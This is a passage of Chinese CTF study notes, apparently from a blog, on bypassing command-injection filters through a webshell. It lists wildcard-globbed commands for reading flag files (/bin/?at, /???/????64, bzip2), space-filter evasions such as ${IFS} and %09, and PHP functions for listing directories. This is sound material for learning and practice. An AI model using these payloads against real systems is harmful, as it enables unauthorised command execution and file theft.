 如果这些也过滤 但是题目是直接给我们一个小马

```cobol
/bin/?at flag.txt
 
下面是通过base64返回
 
如果特别极端 过滤字母
 
/???/????64 ????.???
 
我们可以通过base64返回内容
 
或者使用 
 
/???/???/????2 ????.???
 
/usr/bin/bzip2
 
这个会进行压缩 然后我们访问根目录的 /flag.php.bz2 即可
```

可以通过这种方式执行 bin下存放着我们许多的命令



<img src="https://i-blog.csdnimg.cn/blog_migrate/1f917a462c4b47bb36c725e9bb5d9f2a.png" alt="" style="max-height:83px; box-sizing:content-box;" />


## 过滤空格

```cobol
${IFS}
$IFS$9
<
<>
%0a
%09
```

## 通过__FILE__获取

```scss
__FILE__ 
 
表示当前文件
完整路径和文件名
 
dirname()
获取一个网站路径的目录名
 
scandir()
 
读取目录的文件 然后作为一个数组
 
print_r()
 
打印数组内容
 
localeconv()
 
可以获取到 当前的数学符号
 
current()
 
指定第一个
```